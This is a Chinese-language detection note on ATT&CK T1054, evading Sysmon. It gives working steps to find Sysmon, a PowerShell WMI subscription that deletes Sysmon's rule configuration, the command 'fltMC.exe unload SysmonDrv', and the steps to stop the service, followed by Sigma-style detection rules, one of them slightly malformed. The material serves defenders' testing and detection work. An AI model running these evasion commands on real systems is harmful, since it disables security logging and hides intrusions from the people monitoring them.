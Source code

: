 # T1054-windows-绕过sysmon

## 来自ATT&CK的描述

攻击者可能试图阻止由监测软件或进程捕获到的告警，以及事件日志被收集和分析。这可能包括修改配置文件或注册表项中的监测软件的设置，以达到逃避追踪的目的。

在基于特征监测的情况下，攻击者可以阻止监测特征相关的数据被发送出去，以便于阻止安全人员进行分析。这可以有很多方式实现，例如停止负责转发的进程（splunk转发器、Filebate、rsyslog等）。

## 测试案例

众所周知，sysmon可以帮助安全人员记录很多安全事件，目前sysmon最新版本已经是10.X版本。对于攻击者来讲，他们可能需要确定目标主机是否存在sysmon。通常，攻击者是不会去检测他们入侵的主机上是否存在sysmon。

如何检测被入侵的主机是否存在sysmon，很多攻击者一般执行以下的一种操作：

枚举进程；

枚举服务；

枚举C:\Windows\System32\Drivers下的驱动；

但是，你应该知道sysmon可以实现以下功能：用户可以在其中更改可执行文件和驱动文件的名称，以便其在系统中的存在进行模糊处理。

不过攻击者可以利用fltmc.exe查看其altitude号码，sysmon的altitude号码是385201，固定不变的。

使用fltmc.exe得到的altitude号：

```dos
Windows PowerShell
版权所有 (C) 2009 Microsoft Corporation。保留所有权利。

PS C:\Users\Administrator> fltmc.exe

筛选器名称                      数字实例       高度          框架

------

SysmonDrv                               2       385201         0
luafv                                   1       135000         0
```

在Mimikatz中使用misc::mflt命令得到的altitude号：

```dos
mimikatz # misc::mflt
0 2     385201 SysmonDrv
0 1     135000 luafv
```

关于更多的如何检测被入侵的主机是否存在sysmon，你可以参考：https://anquan.baidu.com/article/350，如何检测sysmon不是本文的重点.

### **绕过Sysmon的两种方法**

目前，攻击者有2个绕过sysmon的方法，第一个是在利用sysmon进程中的盲点，第二种则是直接禁用sysmon。

#### 删除配置项

攻击者可以删除注册表中的规则项，此时， Sysmon在发现注册表被更改后，它将自动重新加载配置。由于此时没有任何安全检测规则存在，它将暂时失去防护能力，不过失效时间，取决于配置的维护方式。如果配置由Ansible，Chef或DSC等配置管理系统管理，可能需要几秒到几分钟才能将配置更改回原始状态，如果使用GPO来管理，那么当GPO更新时，可以在90分钟内恢复原始状态。为了解决这个问题，攻击者可以使用各种Windows技术（如.Net、VBS、PE文件等）创建VMI临时性Consumer监控相应的注册表项，当发现修改操作时，则会删除修改数据或者重新设置表项内容。之所以使用临时的Consumer，是因为大多数防护解决方案会重点关注正在创建或修改的WMI永久事件。

#### 卸载SysmonDrv驱动

我们可以采取的另一个操作就是卸载SysmonDrv驱动，该驱动可以为Sysmon提供关于所有磁盘操作的信息，然后将信息写入事件日志中。如前文所述，该驱动有个唯一的altitude编号，如果我们以管理员权限运行，就可以卸载该驱动，然后Sysmon基本上就会完全处于失效状态。我们可以使用`fltmc.exe`工具来卸载驱动，如下所示，我们通过altitudde编号识别出了隐藏驱动，并成功卸载该驱动。

#### 关闭sysmon服务（管理员权限）

通过windows任务管理器，管理员权限关闭sysmon服务。

## 检测日志

sysmon日志、Windows-WMI-Activity日志，system日志

## 测试复现

#### 删除配置项

```dos
$query = "SELECT * FROM RegistryKeyChangeEvent " + 
    "WHERE Hive ='HKEY_LOCAL_MACHINE' " + 
    "AND KeyPath ='SYSTEM\\CurrentControlSet\\Services\\SysmonDrv\\Parameters'"

Register-WMIEvent -Query $query -Action { 
    Write-host "Sysmon config updated, deleting config."
    Remove-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\SysmonDrv\Parameters" -Name "Rules" }
```

需要注意一点，此时Sysmon会恢复默认配置，因此会记录进程创建和进程终止事件。

#### 卸载SysmonDrv驱动

```dos
Windows PowerShell
版权所有 (C) 2009 Microsoft Corporation。保留所有权利。

PS C:\Users\Administrator> fltMC.exe

筛选器名称                      数字实例       高度          框架
------------------------------  -------------  ------------  -----
SysmonDrv                               2       385201         0
luafv                                   1       135000         0
PS C:\Users\Administrator> fltMC.exe unload SysmonDrv
PS C:\Users\Administrator> fltMC.exe

筛选器名称                      数字实例       高度          框架
------------------------------  -------------  ------------  -----
luafv                                   1       135000         0
PS C:\Users\Administrator>
```

#### 关闭sysmon服务

任务管理器>服务>sysmon服务>停止

## 测试留痕

暂无

## 检测规则/思路

#### 删除配置项

```yml
title: 删除sysmon配置项
description: win7 模拟测试结果
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: WMI日志
detection:
    selection:
        EventID: 5860
        keyword: '命名空间 = root\cimv2；NotificationQuery = SELECT * FROM RegistryKeyChangeEvent WHERE Hive ='HKEY_LOCAL_MACHINE' AND KeyPath ='SYSTEM\\CurrentControlSet\\Services\\SysmonDrv\\Parameters'；PossibleCause = Temporary'
    timeframe: last 1m
    condition: selection
level: medium
```

#### 卸载SysmonDrv驱动—sysmon

```yml
title: fltmc卸载sysmon
description: windows server 2008 模拟测试结果
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: sysmon
detection:
    selection1:
        EventID: 1
        Image: 'C:\Windows\SysWOW64\fltMC.exe'
        CommandLine: '"C:\Windows\system32\fltMC.exe"  unload Sysmon*'
        ParentImage: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
    selection2:
        EventID: 255
        ID: 'DriverCommunication'
        Description: 'Failed to retrieve events - Last error: 由于线程退出或应用程序请求，已中止 I/O 操作。'
    timeframe: last 1m
    condition: all of them
level: medium
```

#### 关闭sysmon服务

```yml
title: 以其他方式关闭sysmon服务
description: win7 模拟测试结果
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: system、sysmon
detection:
    selection1:
        EventID: 4 #sysmon日志
        State: Stopped
    selection2: 7036 #system日志
        keyword: 'Sysmon* 服务处于 停止 状态。'
    selection3: 7040  #system日志
        keyword: 'Sysmon64 服务的启动类型从 自动启动 更改为 已禁用。'
    selection4: 7034 #system
    condition: selection or selection2 or selection3 or selection4
level: medium
```

## 参考推荐

MITRE-ATT&CK-T1054：https://attack.mitre.org/techniques/T1054/

审核策略相关介绍：https://www.malwarearchaeology.com/logging

如何规避sysmon：https://www.anquanke.com/post/id/161630